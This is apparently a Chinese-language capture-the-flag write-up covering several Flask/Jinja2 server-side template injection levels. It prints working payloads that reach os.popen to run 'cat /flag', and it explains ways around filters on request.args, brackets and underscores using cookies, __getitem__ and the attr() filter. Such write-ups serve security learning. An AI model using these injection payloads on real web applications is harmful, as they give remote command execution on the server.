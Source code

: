 这样可以使用get传入一个变量名为xxx的参数



```python
{{lipsum.__globals__.__getitem__(request.args.a).popen(request.args.b).read()}}&a=os&b=cat /flag

{{a.__init__.__globals__[request.args.x].eval(request.args.y)}}&x=__builtins__&y=__import__("os").popen("cat /flag").read()

...
```





### web364

这一题把 `request.args`给过滤了，我们不能使用get传参，本来想用post传参的，但是不行，我们可以使用 `cookie传参`，`request.cookies.xxx`

![image-20230424150938083](https://s2.loli.net/2023/04/24/souZLwAVTdkhqnr.png)



### web365

这一题过滤了中括号 `[]`

我们可以不使用中括号取值的方式，

我们可以使用点 `.` 进行引用，或者使用 `__getitem__`取值



### web366

这一题把下划线`_`也给过滤掉了，意味着我们无法调用 带有下划线`_`的方法了，我们必须使用其他的方法，这里我们使用过滤器：过滤器是通过`管道符号|`进行使用的

这里我们需要了解：`attr()`过滤器，这个过滤器可以获得前者的属性

```
{{lipsum|attr(request.cookies.a)}}

cookie:
a=__globals__
```

<img src="https://s2.loli.net/2023/04/26/m1pIQsMCk8oKtrF.png" alt="image-20230426171925983" style="zoom: 33%;" />

这里我们通过过滤器，成功获得 `lipsum`的`__globals__`属性（使用cookie传参的方式）

![image-20230426172618435](https://s2.loli.net/2023/04/26/Z2S8srwEPQdiTIA.png)

```
{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}

a=__globals__;b=cat /flag
```

注意使用os之前，要先用小括号括起来

